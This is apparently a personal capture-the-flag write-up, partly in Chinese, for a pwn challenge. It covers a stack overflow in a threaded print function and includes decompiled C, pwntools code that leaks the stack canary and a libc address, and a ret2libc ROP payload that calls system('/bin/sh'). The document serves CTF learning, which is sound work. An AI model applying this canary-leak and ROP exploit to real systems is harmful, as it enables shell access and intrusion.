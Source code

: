# 1.0 Challenge

1. where is the leaking point?
2. how to find the canary?
3. canary rec, why need + b'\0'
4. leak stack find libc base 
5. how to build ROP 

# 2.0 Analysis

source code 
parsecmd 
```cpp
__int64 __fastcall parsecmd(const char *a1, __int64 a2)
{
  pthread_t *v2; // rax
  char *endptr[3]; // [rsp+18h] [rbp-18h] BYREF

  endptr[2] = __readfsqword(0x28u);
  endptr[1] = 0;
  endptr[0] = 0;
  pa = 0;
  unk_4040D0 = 0;
  if ( !strncmp(a1, "CHUNKS ", 7u) )
  {
    nthread = strtoul(a1 + 7, 0, 10);
    if ( nthread > 0xAu )
      errx(-1, "bad number of threads");
    printf("set nthread to %u\n", nthread);
  }
  else if ( !strncmp(a1, "CHUNK ", 5u) )
  {
    if ( nthread )
    {
      LODWORD(pa) = strtoul(a1 + 6, endptr, 10);
      DWORD1(pa) = strtoul(endptr[0] + 1, endptr, 10);
      *(&pa + 1) = endptr[0] + 1;
      unk_4040D0 = a2 - (endptr[0] + 1 - a1);
      v2 = curthread;
      curthread += 8LL;
      pthread_create(v2, 0, print, &pa);
      --nthread;
    }
    else
    {
      puts("no threads remaining");
    }
  }
  else if ( !strncmp(a1, "CHONK ", 5u) )
  {
    puts(chonk);
  }
  else
  {
    puts("unknown command");
  }
  return 0;
}
```
print function
```cpp
void *__fastcall print(void *a1)
{
  int v3; // [rsp+10h] [rbp-60h]
  unsigned int seconds; // [rsp+14h] [rbp-5Ch]
  _QWORD dest[10]; // [rsp+20h] [rbp-50h] BYREF

  dest[9] = __readfsqword(0x28u);
  memset(dest, 0, 64);
  v3 = *(a1 + 1);
  seconds = *a1;
  memcpy(dest, *(a1 + 1), *(a1 + 2));
  while ( v3-- )
  {
    puts(dest);
    sleep(seconds);
  }
  return 0;
}
```
USAGE 

![[attachments/Pasted image 20250716220629.png]]
first need to 
CHUNKS `NUM OF THREAD`
CHUNK `TIMESLEEP` `REPEAT` `CHAR`

the customize print so I assume need to do something from here 
# 3.0 Solution
## 3.1 FIND THE LEAKING POINT 
PRINT 这边是最后把 a1 给到 dest
so 这个 dest 是 收到 rbp - 0x50
![[attachments/Pasted image 20250716221045.png]]
而且没有 \x00? 不知道 有没有关系
会把 dest 压满 然后带出后面的 value 

## 3.2 HOW TO FIND THE CANARY
因为dest 是 0x50 所以 canary 通常会在 return 前一个 so 0x50 - 1 = 0x49
```
void *__fastcall print(void *a1)
{
  int v3;                   // [rsp+10h]  → rbp - 0x60
  unsigned int seconds;     // [rsp+14h]  → rbp - 0x5C
  _QWORD dest[10];          // [rsp+20h]  → rbp - 0x50
                            //            → rbp - 0x50 to rbp - 0x08
  dest[9] = __readfsqword(0x28u); // writes canary at rbp - 0x08
  ...
}
```
这边我直接用别人的leaking 一定要补齐 8 个 
manual
一开始 是 rc(7) 要加 b'\0'  + rc(7) 才能转 u64
```python
# leak
# must + b'\0'
canary = u64(b'\0'+rc(7))
print("canary:",hex(canary))
leak_stack = u64(b'\0'*2+ru7f())
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
dbg()
```
后面的 leak stack 是直接拿 罢了 然后对着 vmmap diff
记得要补齐 不确定的话可以len(rl()) 看length 

auto 一点
```python
# must + b'\0'
leak=b'\x00'+rl().strip()
warn(f"Thread leak: {leak}")
canary = u64(leak[:8])
print("canary:",hex(canary))
leak_stack = u64(leak[8:]+b'\x00'*(8-len(leak[8:])))
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
libc.address=libc_base
# dbg()
```

## 3.3 HOW TO BUILD ROP

下面是auto way 去找 也可以ropgadget 
主要都有了
```python
libc.address=libc_base
# dbg()

# ROP
rop = ROP(libc)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
```

attack payload 
就是 offset + canary + 随便 8 个 + ret + pop_rdi + bin_sh + system
可是我看到有人
就是 offset + canary + 随便 8 个 + pop_rdi + bin_sh + ret + system 也可以 
还有
我看到没有ret 也可以 ？？？？就以防万一 alignment 问题
```
# attack payload 
offset = 0x48
payload = b'CHUNK 1 1 ' 
payload += b'a' * offset 
payload += p64(canary)
payload += b'b' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```
# 4.0 FLAG 
L3AK{m30w_m30w_1n_th3_d4rk_y0u_c4n_r0p_l1k3_th4t_c4t}

# 5.0 FINAL SCRIPT 
![[attachments/exploit3.py]]